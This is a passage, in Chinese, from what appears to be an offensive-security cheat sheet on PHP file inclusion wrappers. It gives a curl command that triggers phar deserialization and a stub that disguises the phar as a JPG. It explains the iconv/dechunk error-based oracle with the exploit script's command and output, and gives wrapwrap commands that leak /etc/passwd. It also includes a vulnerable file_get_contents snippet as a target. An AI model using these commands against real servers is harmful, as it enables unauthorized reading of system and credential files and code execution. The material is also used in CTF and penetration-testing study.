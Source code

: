 最后调用 phar 包装器：`curl http://127.0.0.1:8001/?page=phar:///var/www/html/deser.phar`

注意：你可以使用 `$phar->setStub()` 添加 JPG 文件的魔术字节：`\xff\xd8\xff`

```php
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");
```

## 包装器 convert.iconv:// 和 dechunk://

### 从基于错误的oracle泄露文件内容

- `convert.iconv://`：将输入转换为另一种编码（`convert.iconv.utf-16le.utf-8`）
- `dechunk://`：如果字符串不含换行符，则仅当字符串以 A-Fa-f0-9 开头时才会清除整个字符串

这种利用的目标是从文件中逐个字符地泄露内容，基于 [DownUnderCTF](https://github.com/DownUnderCTF/Challenges_2022_Public/blob/main/web/minimal-php/solve/solution.py) 的写入。

**要求**：

- 后端不能使用 `file_exists` 或 `is_file`。
- 漏洞参数应在 `POST` 请求中。
    - 在 GET 请求中无法泄露超过 135 个字符，因为受到大小限制

利用链基于 PHP 过滤器：`iconv` 和 `dechunk`：

1. 使用 `iconv` 过滤器，以指数方式增加数据大小来触发内存错误。
2. 使用 `dechunk` 过滤器，根据之前的错误确定文件的第一个字符。
3. 再次使用 `iconv` 过滤器，使用具有不同字节顺序的编码来交换剩余字符与第一个字符。

使用 [synacktiv/php_filter_chains_oracle_exploit](https://github.com/synacktiv/php_filter_chains_oracle_exploit)，脚本将使用 `HTTP 状态码：500` 或时间作为基于错误的 oracle 来确定字符。

```ps1
$ python3 filters_chain_oracle_exploit.py --target http://127.0.0.1 --file '/test' --parameter 0   
[*] 目标 URL 为：http://127.0.0.1
[*] 泄露的本地文件为：/test
[*] 正在运行 POST 请求
[+] 文件 /test 泄露已完成！
```

### 在自定义格式输出中泄露文件内容

- [ambionics/wrapwrap](https://github.com/ambionics/wrapwrap) - 生成一个 `php://filter` 链，为文件内容添加前缀和后缀。

为了获得某些文件的内容，我们希望得到：`{"message":"<file contents>"}`。

```ps1
./wrapwrap.py /etc/passwd 'PREFIX' 'SUFFIX' 1000
./wrapwrap.py /etc/passwd '{"message":"' '"}' 1000
./wrapwrap.py /etc/passwd '<root><name>' '</name></root>' 1000
```

这可以针对以下易受攻击的代码使用。

```php
<?php
  $data = file_get_contents($_POST['url']);
  $data = json_decode($data);
  echo $data->message;
?>
```
